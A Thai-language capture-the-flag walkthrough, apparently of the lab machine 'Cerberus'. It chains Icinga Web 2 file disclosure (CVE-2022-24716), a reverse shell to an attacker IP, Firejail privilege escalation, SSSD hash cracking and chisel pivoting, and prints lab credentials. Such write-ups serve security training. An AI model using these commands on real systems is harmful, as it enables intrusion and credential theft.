









## Scan Host 

```bash
nmap -Pn -sCV -p- 10.10.11.205
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-14 12:57 +07
Nmap scan report for 10.10.11.205
Host is up (0.032s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Did not follow redirect to http://icinga.cerberus.local:8080/icingaweb2
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 162.89 seconds

```

ตวจสอบหน้า Website จะพบว่ามีการใช้ http://icinga.cerberus.local:8080/icingaweb2 



จะเห็นได้ว่ามีการใช้งาน App ชื่อ icinga ซึ่งถ้าดูจะเป็นเวอร์ชัน 2 และมีช่องโหว่ที่ใช้ได้อยู่จำนวน 3  ช่องโหว่ตามภาพด้านล่าง 



## Host Exploit 
เราสามารถใช้ช่องโหว่ Icinga Web 2.10 - Arbitrary File Disclosure ซึ่งเป้น CVE-2022-24716 


หากตรวจสอบไฟล์ที่สำคัญของแอพดังกล่าวจะพบว่ามีไฟล์ที่สำคัญตามลิ้งนี้ https://icinga.com/docs/icinga-web/latest/doc/03-Configuration/ 




จากนั้นลองตรวจสอบแต่ละไฟล์จะพบว่ามีข้อมูลสำคัญอยู่ภายใต้ resources.ini 
```python
python3 51329.py http://icinga.cerberus.local:8080/icingaweb2/ /etc/icingaweb2/resources.ini
[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "IcingaWebPassword2023"
use_ssl = "0"
```


## Exploit to Reverse shell using cve 
```python
python3 51586.py -u 'http://icinga.cerberus.local:8080' -U 'matthew' -P 'IcingaWebPassword2023'  -i '10.10.14.9'  -p 443
```






## Priv Escalation 

```bash
find / -type f -perm -u=s -ls 2>/dev/null
```



Firejail Local Privilege Escalation 
https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25


```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
chmod +x fire.py
./fire.py
```



จากนั้นเปิดอีก terminal เพื่อรันสิทธิ ROOT

```bash
su -
```

**System Security Services Daemon (SSSD)** เป็นบริการระบบความปลอดภัยที่ออกแบบมาเพื่อช่วยให้ระบบ Linux สามารถ **เข้าถึงข้อมูลผู้ใช้และข้อมูลการรับรองตัวตนจากระบบจัดการผู้ใช้แบบรวมศูนย์ (centralized authentication systems)** โดยฟีเจอร์ที่น่าจะมีช่องโหว่ของ SSSD คือ**การแคชข้อมูลผู้ใช้และกลุ่ม (User and Group Caching):** - เก็บข้อมูลผู้ใช้และกลุ่มไว้ในเครื่องเพื่อให้สามารถเข้าสู่ระบบได้แม้เมื่อเซิร์ฟเวอร์ต้นทางไม่ว่างหรือขาดการเชื่อมต่อ โดยเก็บไว้อยู่ภายใต้ path 

```bash
/var/lib/sss/db/
```

เราสามารถตรวจสอบไฟล์แต่ละไฟล์ซึ่งเป็น Cache ของ sssd ซึ่งภายใต้ไฟล์ cache_cerberus.local.ldb เราตรวจพบข้อมูลที่มีความน่าสนใจ ซึ่งเป็นค่า hash ของระบบ




```bash
echo '$6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCNm0VGJnX/Mu608QkliMpIy1FwKZlyUJAZU3FZ3.GQ.4N6bb9pxE3t3T0' > hash

john hash  --wordlist=/usr/share/wordlists/rockyou.txt 
```



จากภาพเราจะได้รหัสผ่านดังต่อไปนี้ 
```bash
matthew:147258369
```


## Privot 

ติดตั้ง Ligolo 

```bash
chisel server --port 1111 --reverse # Attacker host
./chisel client 10.10.14.9:1111 R:5985:172.16.22.1:5985 # Victim host
```


จะเห็นได้ว่า user ดังกล่าวสามารถใช้บน winrm ได้ จากนั้นรัน 

```bash
evil-winrm -i 127.0.0.1 -u matthew -p '147258369'
```

จากนั้นทำการ Forward Port ของ ManageEngine ไปที่ port 9251 
```
./chisel server --port 2222 --reverse # Attacker host

.\chisel.exe client 10.10.14.9:2222 R:socks # Victom host
```
